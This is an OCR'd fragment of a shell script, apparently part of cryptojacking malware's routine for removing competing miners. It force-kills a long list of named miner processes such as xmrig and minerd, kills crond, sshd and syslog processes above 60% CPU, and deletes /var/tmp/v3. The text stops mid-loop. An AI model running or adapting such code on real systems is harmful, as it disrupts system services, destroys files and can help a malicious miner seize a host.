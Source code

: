 ```
	pkill -f jweri
	pkill -f kw.sh
	pkill -f kworker34
	pkill -f kxjd
	pkill -f libapache
	pkill -f Loopback
	pkill -f lx26
	pkill -f mgwsl
	pkill -f minerd
	pkill -f minergate
	pkill -f minexmr
	pkill -f mixnerdx
	pkill -f mstxmr
	pkill -f nanoWatch
	pkill -f nopxi
	pkill -f NXLAi
	pkill -f performedl
	pkill -f polkitd
	pkill -f pro.sh
	pkill -f pythno
	pkill -f qW3xT.2
	pkill -f sourplum
	pkill -f stratum
	pkill -f sustes
	pkill -f wnTKYg
	pkill -f XbashY
	pkill -f XJnRj
	pkill -f xmrig
	pkill -f xmrigDaemon
	pkill -f xmrigMiner
	pkill -f ysaydh
	pkill -f zigw
	pkill -f ld-linux
	
	# crond
	ps ax | grep crond | grep -v grep | awk '{print $1}' > /tmp/crondpid
	while read crondpid
	do
		if [ $(echo  $(ps -p $crondpid -o %cpu | grep -v \%CPU) | sed -e 's/\.[0-9]*//g')  -ge 60 ]
		then
			kill $crondpid
			rm -rf /var/tmp/v3
		fi
	done < /tmp/crondpid
	rm /tmp/crondpid -f
	 
	# sshd
	ps ax | grep sshd | grep -v grep | awk '{print $1}' > /tmp/ssdpid
	while read sshdpid
	do
		if [ $(echo  $(ps -p $sshdpid -o %cpu | grep -v \%CPU) | sed -e 's/\.[0-9]*//g')  -ge 60 ]
		then
			kill $sshdpid
		fi
	done < /tmp/ssdpid
	rm -f /tmp/ssdpid

	# syslog
	ps ax | grep syslogs | grep -v grep | awk '{print $1}' > /tmp/syslogspid
	while read syslogpid
	do
		if [ $(echo  $(ps -p $syslogpid -o %cpu | grep -v \%CPU) | sed -e 's/\.[0-9]*//g')  -ge 60 ]
```
